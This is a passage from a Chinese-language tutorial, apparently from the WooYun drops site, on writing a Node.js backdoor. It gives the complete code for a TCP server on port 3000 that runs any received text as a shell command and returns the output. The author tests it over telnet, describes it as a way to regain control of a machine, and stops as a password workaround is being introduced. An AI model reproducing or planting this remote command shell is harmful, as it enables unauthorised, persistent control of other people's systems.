 为了更加的直观，我用#start和#end来标出反馈的区域。

server变量OK后，就是让程序监听端口运行了。

    
    
    server.listen(3000,function(){
        console.log('OK');
    });
    

监听3000端口，并在终端中显示OK。

完整代码如下：

    
    
    var net = require('net');
    var exec = require('child_process').exec;
    var server= net.createServer(function(conn){
        conn.setEncoding('utf8');
        conn.write('\n');
        conn.on('data',function(data){
            data=data.replace('\r\n','');
            exec(data,function(error,stdout){
                if(error !== null){
                    conn.write(error + '\n');
                    return false;       
                }
                conn.write('########################start\n\n' + stdout + '\n########################end\n\n');
            });
        });
    }); 
    
    server.listen(3000,function(){
        console.log('OK');
    });
    

现在让我们来测试一下：

![p2](http://static.wooyun.org//drops/20151201/20151201135303440302.png)

打开另一个终端，输入`telnet 127.0.0.1 3000`

![p3](http://static.wooyun.org//drops/20151201/20151201135307869033.png)

现在我们输入几条命令试下：

![p4](http://static.wooyun.org//drops/20151201/20151201135309839994.png)

![p5](http://static.wooyun.org//drops/20151201/20151201135312162115.png)

OK了。现在只需要使用添加用户即可再次控制机器。

而这里有个缺陷，就是没有密码验证，我特意查了net库里的函数，但是没有找到密码验证，于是我想到了另一种方法来代替密码验证。代码如下：

    
    